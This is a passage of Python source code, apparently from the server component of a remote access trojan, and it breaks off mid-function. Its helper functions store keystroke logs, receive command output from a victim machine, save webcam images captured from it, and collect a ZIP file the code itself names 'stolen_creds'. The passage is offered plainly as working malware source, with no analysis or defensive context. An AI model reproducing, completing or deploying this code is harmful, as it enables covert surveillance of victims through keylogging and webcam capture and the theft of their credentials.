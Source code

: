 # Helper function: Save keylog data to a timestamped file
def save_keylog(data):
    now = datetime.now().strftime("%Y%m%d_%H%M%S")
    filename = f"keylog_{now}.txt"
    save_path = os.path.join(BASE_DIR, filename)
    with open(save_path, "w", encoding="utf-8") as f:
        f.write(data)
    return save_path

# Helper function: Receive command output from the client until end marker
def receive_result(client_socket):
    data = b""
    while True:
        chunk = client_socket.recv(4096)
        if not chunk:
            break
        data += chunk
        if b"<end_of_result>" in data:
            break
    output = data.decode(errors="ignore").replace("<end_of_result>", "").strip()
    return output

# Helper function: Receive webcam image from client
def receive_webcam_image(client_socket, save_as="webcam.jpg"):
    try:
        data = b""
        while len(data) < 8:
            packet = client_socket.recv(8 - len(data))
            if not packet:
                return "[!] Client disconnected."
            data += packet
        img_size = struct.unpack('<Q', data)[0]
        if img_size == 0:
            return "[!] No webcam image received."
        img_data = b""
        while len(img_data) < img_size:
            packet = client_socket.recv(min(CHUNK_SIZE, img_size - len(img_data)))
            if not packet:
                return "[!] Client disconnected."
            img_data += packet
        with open(os.path.join(BASE_DIR, save_as), "wb") as f:
            f.write(img_data)
        return f"[+] Webcam image saved as {save_as}"
    except Exception as e:
        return f"[!] Webcam receive error: {e}"

# Helper function: Receive stolen credentials ZIP from client
def receive_creds_zip(client_socket):
    fname = f"stolen_creds_{datetime.now().strftime('%Y%m%d_%H%M%S')}.zip"
    save_path = os.path.join(BASE_DIR, fname)
    first = client_socket.recv(16)
    if first == b"NO_CREDS":
        return "[!] Client found no credentials."
    if first != b"READY":
        return "[!] Unexpected response from client."
    with open(save_path, "wb") as f: